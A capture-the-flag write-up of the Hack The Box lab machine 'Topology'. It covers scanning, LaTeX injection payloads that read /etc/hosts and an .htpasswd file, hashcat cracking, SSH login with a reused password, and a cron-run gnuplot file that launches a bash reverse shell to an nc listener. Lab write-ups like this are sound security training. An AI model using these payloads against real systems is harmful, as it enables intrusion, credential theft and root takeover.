

+++
title = "Topology"
date = "2024-03-16"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-06-10

**Created by**: [gedsic](https://app.hackthebox.com/users/22016)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.2`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.217`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Topology using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.217" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.217" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.217" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Topology is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.217" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http
|_http-title: Miskatonic University | Topology Group
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.11.217/`.


It's a website for a university group named 'Topology' of the Department of
Mathematics. This page shows the group members, projects and publications.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


#### Exploration

One of the projects is 'LaTeX Equation Generator', and is used to create PNG
images of LaTeX equations in the browser. The link to access it redirects to
`http://latex.topology.htb/equation.php`.

I'll add this domain and subdomain to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.217 topology.htb latex.topology.htb" >> "/etc/hosts"
```

Then, I'll start by exploring the subdomain we just discovered:



It's actually a directory listing.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


This reveals that this web page is using PHP.

#### Exploration

It links the `equation.php` we're yet to
explore, but also a `header.tex` file:

```tex
% vdaisley's default latex header for beautiful documents
\usepackage[utf8]{inputenc} % set input encoding
\usepackage{graphicx} % for graphic files
\usepackage{eurosym} % euro currency symbol
\usepackage{times} % set nice font, tex default font is not my style
\usepackage{listings} % include source code files or print inline code
\usepackage{hyperref} % for clickable links in pdfs
\usepackage{mathtools,amssymb,amsthm} % more default math packages
\usepackage{mathptmx} % math mode with times font
```

We also find `equationtest.tex`:

```tex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Time to browse to the `equation.php` file:


It's indeed a web page to convert LaTeX equations to PNG images.

If we enter a LaTeX equation and press 'Generate', it's rendered as LaTeX:


And if we enter some text, it's also rendered as LaTeX:


It also works for a few special characters.

#### Under the hood

If we check the source code of the web page, we notice that when we press the
'Generate' button to submit the form, a GET message is sent to `/equation.php`
with the data:

```html
eqn=<INPUT>&submit=
```

It's likely inserting our input in a .TEX file like the `equationtest.tex` file
we found earlier, meaning that it imports the `header.tex` file and inserts our
input between `$` characters, used for inline math.

#### LaTeX command injection

Since our input is added to a .TEX file, and then somehow converted to an image,
we must be able to inject our own commands into the code.

If we search online for LaTeX injection, we find a page on
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).

Let's try to read the `/etc/hosts` file using the first payload,
`\input{/etc/hosts}`:


This command is blocked.

We discovered [previously](#under-the-hood) that the `header.tex` file was
included in the file containing our input, and this .TEX file uses the
`listings` package. This means that we should be able to use
`\lstinputlisting{/etc/hosts}`!

However, if we try it, we get an error message indicating that the generated
image contains errors. In fact, if we go back to the `equationtest.tex` file, we
see that our input is placed between `$` characters, so we should enclose our
command between these characters to leave the inline math mode.

Hence, our LaTeX command injection to read `/etc/hosts` should be
`$\lstinputlisting{/etc/hosts}$`.


And it works!

I also attempted to write to files, but everything I tried is blocked.

Now we got a LFI, but we can't do much with it, since we don't know which file
to read.

Let's read the default Apache configuration file, located at
`/etc/apache2/sites-enabled/000-default.conf`, using our LFI. Maybe it contains
critical information?


This configuration file reveals the existence of the `stats` and `dev`
subdomains.

I'll add these to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.217 stats.topology.htb dev.topology.htb" >> "/etc/hosts"
```

#### Exploration

Let's start by exploring the `stats.topology.htb` subdomain:


It's just a page displaying a graph of the server load over time.

If we browse to the other subdomain we found, `dev.topology.htb`, we're asked to
authenticate using HTTP authentication.

If we check this login request's response using Burp Suite, we see that it uses
the 'Basic' scheme with a realm set to 'Under construction'.

Let's use `hydra` to try finding valid credentials using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords.

```sh
❯ hydra -L "/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" -P "/usr/share/wordlists/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt" "dev.topology.htb" "http-get" "/"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed.

#### LFI

We know that the web server is Apache, and Apache uses `.htpasswd` file to
handle HTTP authentication. Therefore, there should be a `.htpasswd` file in
`/var/www/dev` containing credentials for this subdomain!

Let's retrieve them using the LFI we identified with the payload
`$\lstinputlisting{/var/www/dev/.htpasswd}$`:


We find credentials for `vdaisley`! The password is hashed though:
`$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. I'll place it in a `apache.hash` file.

#### Hash cracking

Let's try to crack this hash using `hashcat` with the `rockyou.txt` wordlist.

```sh
❯ hashcat -m "1600" "/workspace/apache.hash" -a "0" "/usr/share/wordlists/rockyou.txt"
```

```
<SNIP>
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
<SNIP>
```

`vdaisley`'s hash corresponds to the `calculus20` password!

#### Exploration

Let's head back to the `dev.topology.htb` subdomain, and use the credentials we
just discovered to authenticate.


From what I understand, it's a portfolio of Klein and Daisley, two people
working at the Department of Mathematics at Miskatonic University. They're
specialized in developing mathematical software.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


The footer of the website leaks that it's using
[a template](https://github.com/rajshekhar26/cleanfolio-minimal) made by
[rajshekhar26](https://github.com/rajshekhar26).

#### Exploration

In the 'Projects' section of the page, the 'LaTeX Equation Generator' project is
mentioned. It must be the `/equation.php` web page of the `latex.topology.htb`
subdomain.

However, there's also a mention of a 'PHPMyRefDB' project, which is 'Currently
under development'. This could be interesting!

## Foothold (SSH)

I fell into a rabbit hole trying to find this project, but it's not hosted on
the web server.

If we check the `/etc/passwd` file, we find an entry for the `vdaisley` user,
which is also likely the administrator of the Apache server. Maybe he reused the
credentials we found for the `dev.topology.htb` subdomain for SSH?

```sh
❯ ssh "vdaisley@10.10.11.217"
```

```
The authenticity of host '10.10.11.217 (10.10.11.217)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
vdaisley@10.10.11.217's password:
<SNIP>
vdaisley@topology:~$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `vdaisley` (obviously).

### Architecture

What is Topology's architecture?

```sh
vdaisley@topology:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Topology is using.

```sh
vdaisley@topology:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Topology.

```sh
vdaisley@topology:~$ uname -r
```

```
5.4.0-150-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
vdaisley@topology:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
root
vdaisley
```

There's `vdaisley` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
vdaisley@topology:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
avahi
backup
bin
bluetooth
cdrom
colord
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
gdm
geoclue
gnats
input
irc
kmem
kvm
_laurel
list
lp
lpadmin
lxd
mail
man
messagebus
mysql
netdev
news
nogroup
operator
plugdev
proxy
pulse
pulse-access
render
root
rtkit
sambashare
saned
sasl
scanner
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tss
tty
users
utmp
uucp
uuidd
vdaisley
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
vdaisley@topology:~$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.217  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 fe80::250:56ff:feb9:4105  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:4105  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:41:05  txqueuelen 1000  (Ethernet)
        RX packets 11806  bytes 2291008 (2.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12298  bytes 5717834 (5.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2502  bytes 208038 (208.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2502  bytes 208038 (208.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Topology's hostname?

```sh
vdaisley@topology:~$ hostname
```

```
topology
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
vdaisley@topology:~$ cat "/home/vdaisley/user.txt"
```

```
71fe1149f013c182f54bba5b84b32a70
```

### Exploring `/opt`

If we explore `/opt`, we notice a `gnuplot` folder:

```sh
vdaisley@topology:~$ ls -la "/opt"
```

```
<SNIP>
drwxr-xr-x  3 root root 4096 May 19  2023 .
drwxr-xr-x 18 root root 4096 Jun 12  2023 ..
drwx-wx-wx  2 root root 4096 Jun 14  2023 gnuplot
```

Weirdly, we can write to this folder, but we can't read it.

If we run `pspy`, we see that there's a cronjob running every minute that
executes all PLT files in the `/opt/gnuplot` folder as `root`. This is probably
used to execute scripts to update the graph for the `stats.topology.htb`
subdomain.

The good news is that we have write access to the `/opt/gnuplot` folder, and
that `root` executes all PLT files in this folder. This means that we can create
a PLT file that will be executed using `gnuplot` as `root`!

## Privilege escalation (Cronjob)

The `gnuplot` utility is a program that can generate two-dimensional and
three-dimentional plots of functions, data, and data fits.

This utility can execute PLT files.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

I'll create a `privesc.plt` file in `/opt/gnuplot` to execute this command:

```py
system "/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i"
```

We just have to wait for the cronjob to execute. Then, if we check our listener:

```
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.217] 47046
<SNIP>
root@topology:~#
```

It caught the reverse shell!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Topology as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@topology:~# cat "/root/root.txt"
```

```
ce704948f4332e8566d01f9e1c0ec835
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Easy'. The
foothold required to first find a LFI that wasn't blacklisted through a LaTeX
injection, then to discover the `dev.topology.htb` subdomain and then to use the
LFI to retrieve `vdaisley` password, which worked over SSH. The privilege
escalation was much easier, it was tricky to identify but trivial to exploit
thanks to online documentation.

Thanks for reading!
